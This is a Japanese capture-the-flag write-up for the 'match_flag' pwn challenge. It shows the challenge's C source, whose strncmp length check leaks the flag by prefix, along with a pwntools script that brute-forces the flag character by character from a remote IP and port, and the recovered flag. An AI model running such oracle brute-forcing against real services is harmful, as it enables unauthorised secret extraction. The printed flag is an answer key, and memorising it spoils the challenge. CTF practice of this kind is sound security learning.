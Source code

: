 # match_flag:Pwn:71pts
彼はフラグを隠し持っているらしい。 僕たちに直接教えてくはくれないが、フラグが正解かどうかは教えてくれるそうだ！ ...どうやって聞き出そうか。  
```
nc 27.133.155.191 30009
```
[main.c](main.c)  

# Solution
main.cは以下のようだ。  
```c:main.c
#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>
#include<string.h>

int main() {
	// set up for CTF
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
	alarm(60);

	FILE *fp = fopen("./flag.txt", "r");
	if(fp == NULL) {
		puts("flag.txt not found!");
		exit(0);
	}
	char flag[0x100];
	fgets(flag, 0x100, fp);

	char input[0x100];
	fgets(input, 0x100, stdin);
	int len = strlen(input) - 1;

	if(strncmp(flag, input, len) == 0) {
		puts("Correct!!!");
	} else {
		puts("Incorrect...");
	}
}
```
入力がflagの先頭と部分一致している場合、"Correct!!!"が返ってくる。  
そのため、一文字ずつ先頭から決定できる。  
以下のffflag.pyで行う。  
```python:ffflag.py
import pwn

flag = ""

while True:
    for i in "abcdefghijklmnopqrstuvwxyz0123456789{}_ ":
        io = pwn.remote("27.133.155.191", 30009)
        io.sendline(flag+i)
        if b"Correct!!!" in io.recv():
            flag += i
            break
        io.close()
    if "}" in flag:
        print(flag)
        break
```
実行する。  
```bash
$ python ffflag.py
~~~
xm4s{you got flag finaly hahaha}
```
flagが得られた。  

## xm4s{you got flag finaly hahaha}